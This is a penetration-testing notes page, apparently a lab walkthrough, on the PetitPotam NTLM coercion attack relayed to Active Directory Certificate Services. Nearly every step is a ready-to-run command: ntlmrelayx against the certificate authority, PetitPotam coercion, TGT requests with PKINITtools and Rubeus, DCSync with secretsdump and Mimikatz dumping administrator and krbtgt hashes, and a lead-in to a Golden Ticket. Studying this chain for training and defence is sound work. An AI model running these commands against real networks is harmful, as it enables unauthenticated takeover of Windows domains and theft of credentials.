

# PetitPotam

The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS-EFSRPC)

This technique allows an unauthenticated attacker to take over a Windows domain where **Active Directory Certificate Services (AD CS)**

A new digital certificate is made.This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

For more on [NTLM relaying to AD CS and the PetitPotam attack.](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)

There is also a powershell version [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)

## Start nltmrelayx.py

```
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

## Run PetitPotam

```
python3 PetitPotam.py 172.16.5.225 172.16.5.5       
```

<figure><figcaption><p>We get base64 encoded certificate</p></figcaption></figure>

## Request a TGT

```
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

## DCSync

Set the KRB5CCNAME and do:

```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

## OR getnthash.py

Use the AS-ReP encryption key from when we requested TGT

```
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

Then secretsdump:

```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```

## Rubeus

Alternatively, once we obtain the base64 certificate via **ntlmrelayx.py**, we could use the certificate with the _Rubeus_ tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.

```
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```

## Mimikatz

```
lsadump::dcsync /user:inlanefreight\krbtgt
```

Then Golden Ticket
